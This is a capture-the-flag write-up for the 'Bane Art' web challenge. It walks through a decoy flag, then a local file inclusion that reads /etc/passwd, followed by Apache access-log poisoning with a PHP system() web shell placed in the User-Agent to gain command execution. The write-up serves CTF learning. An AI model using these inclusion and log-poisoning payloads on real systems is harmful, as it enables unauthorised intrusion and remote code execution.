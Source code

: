 **BANE ART** 


**Category:** Web
**Concepts:** lfi, log poisoning, reverse shell

**Problem Statement:**
http://web1.cybercastors.com:14438

**Hints**
None


![image](../images/ba1.png)

The page has many categories of ascii art. I went to all of them and one that particularly stood out was 'space', where above Morty's ascii art there was a certain comment:

![image](../images/ba2.png)

So, I thought this was the flag and submitted it thinking "wow this was a trash problem". But the flag was incorrect. So started trying 

`http://web1.cybercastors.com:14438/app.php?topic=space.php&secret=castorsCTF{r1cK_N_M0rtY'$_4_L4iF}` as written in that comment, only to waste an hour behing nothing. Apparently this was not only a fake flag, but also a misleading rabbit hole.
So I turned to lfi(which was possible on ?topic=)

PoC: `http://web1.cybercastors.com:14438/app.php?topic=/etc/passwd`

I ran fimap(sorry admins) over this and found out `/var/log/apache2/access.log` was accessible.

I knew what to do next. I popped up burpsuite, poisoned my User-Agent.

PoC: `<?php phpinfo();?>`
Actual poison: `<?php system($_GET['c']);?>`

Now this was extremely difficult with too many people trying to do the same thing and some fucking up the log file and making others wait till the server resets.

But with modified requests such as: `http://web1.cybercastors.com:14438/app.php?topic=/var/log/apache2/access.log&c=ls`, I was able to do rce, but someone would fuck up the log file and I'd have to do it again. During my 69420th attempt of doing so, I found the path in the log file itself. Someone just figured it out and went to it. So lucky me just took it from there.

`/home/falg/flag/test/why/the/hassle/right/flag.txt`

**FLAG:** castorsCTF{w3lc0m3_2_D4_s0urc3_YoUng_Ju4n}


